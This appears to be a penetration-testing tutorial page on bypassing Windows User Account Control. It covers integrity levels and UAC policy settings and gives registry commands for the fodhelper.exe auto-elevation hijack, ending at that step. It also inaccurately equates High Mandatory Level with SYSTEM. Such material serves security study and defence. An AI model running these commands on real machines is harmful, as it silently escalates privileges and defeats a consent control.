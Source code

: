 ```yaml
---
title: Bypass UAC
category: Post Exploitation
order: 2
---
```


User Account Control (UAC) is an access control system that forces applications and tasks to run in the context of a non-administrative account until an administrator authorizes elevated access.

UAC was first introduced in Windows Vista and attracted complaints from users due to the frequency and annoyance of the popups, which led Microsoft to introduce some relaxations.

# Mandatory Levels

Exists three types of Mandatory Level:

```
whoami /all

GROUP INFORMATION
-----------------

Group Name                          Type             SID          Attributes                                        
=================================== ================ ============ ==================================================
Everyone                            Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users        Alias            S-1-5-32-555 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                       Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE            Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users    Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization      Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                               Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication    Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Low Mandatory Level Unknown SID type S-1-16-4096  Mandatory group, Enabled by default, Enabled group
```

* **Low Mandatory Level:** Services like IE has no permissions, it can not write on any directory, but IE for example need to write cache on a directory. So with Low Mandatory Level we will only able to write data on the following path. `C:\Users\Victim\AppData\LocalLow`
* **Medium Mandatory Level:** Permissions as a normal user.
* **High Mandatory Level:** Permissions as NT AUTHORITY/SYSTEM.

# UAC Bypass

Some of the own trusted signed applications are able to "auto-elevate" without consent in certain conditions.

The default configuration for UAC is `Prompt for consent for non-Windows binaries`, but can also have different settings such as `Prompt for credentials`, `Prompt for consent` and `Elevate without prompting`.

We can check UAC configuration with powershell.

```powershell
$path = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"
$filter="ConsentPromptBehaviorAdmin|ConsentPromptBehaviorUser|EnableInstallerDetection|EnableLUA|EnableVirtualization|PromptOnSecureDesktop|ValidateAdminCodeSignatures|FilterAdministratorToken"
(Get-ItemProperty $path).psobject.properties | where {$_.name -match $filter} | select name,value


Name                        Value
----                        -----
ConsentPromptBehaviorAdmin      5
ConsentPromptBehaviorUser       3
EnableInstallerDetection        1
EnableLUA                       1
EnableVirtualization            1
PromptOnSecureDesktop           1
ValidateAdminCodeSignatures     0
```
We are interested in `ConsentPromptBehaviorAdmin` parameter.

|  **Value**  | **Meaning**                             |
|:-----------:|-----------------------------------------|
|      0      | Elevate without prompting               |
|      1      | Prompt for credentials (Secure Desktop) |
|      2      | Prompt for consent (Secure Desktop)     |
|      3      | Prompt for credentials                  |
|      4      | Prompt for consent                      |
| 5 (Default) | Prompt for consent non-windows binaries |

A UAC bypass is a technique by which an application can go from `Medium Integrity` to `High Integrity` without prompting for consent. 


## fodhelper.exe

`fodhelper.exe` is a Microsoft support application responsible for managing language changes in the operating system. This binary runs as `high integrity` on Windows 10.

With `sigcheck.exe` from [SysInternals ](https://docs.microsoft.com/en-us/sysinternals/)is posible to inspect the application manifest.

```
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
```

> **Note:** Search for `requestedExecutionLevel` as `requireAdministrator` and `autoElevate` in `true`.

First we need to add some registries with REG:

```
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```

